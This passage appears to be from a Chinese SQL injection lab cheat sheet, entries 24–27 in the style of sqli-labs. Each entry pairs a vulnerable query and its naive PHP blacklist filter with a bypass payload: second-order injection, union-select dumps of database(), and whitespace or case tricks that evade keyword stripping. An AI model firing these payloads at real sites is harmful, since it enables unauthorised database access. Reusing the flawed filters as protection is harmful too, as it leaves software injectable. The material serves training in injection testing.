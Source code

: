 ### 24、二次注入 [ ' ]

```python
# SQL语句
insert into users ( username, password) values(\"$username\", \"$pass\");
UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ;
# 过滤语句
无
# Payload
admin'#
```

### 25、过滤and or [ ' ]

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
$id= preg_replace('/or/i',"", $id);
$id= preg_replace('/AND/i',"", $id);
# Payload
?id=-1' union select 1,2,database()--+
```

### 26、过滤and or 空格 -- [ ' ] #

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
$id= preg_replace('/or/i',"", $id);
$id= preg_replace('/and/i',"", $id);
$id= preg_replace('/[\/\*]/',"", $id);
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);
$id= preg_replace('/[\s]/',"", $id);
$id= preg_replace('/[\/\\\\]/',"", $id);
# Payload
?id=0'union%a0select%a01,database(),3%26%26'1'='1
```

### 27、过滤and or 空格 -- # union select [ ' ]

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
$id= preg_replace('/[\/\*]/',"", $id);
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/select/m',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/union/s',"", $id);
$id= preg_replace('/select/s',"", $id);
$id= preg_replace('/UNION/s',"", $id);
$id= preg_replace('/SELECT/s',"", $id);
$id= preg_replace('/Union/s',"", $id);
$id= preg_replace('/Select/s',"", $id);
# Payload
?id=0'%0aUNion%0aSElect%0a1,database(),3'
```
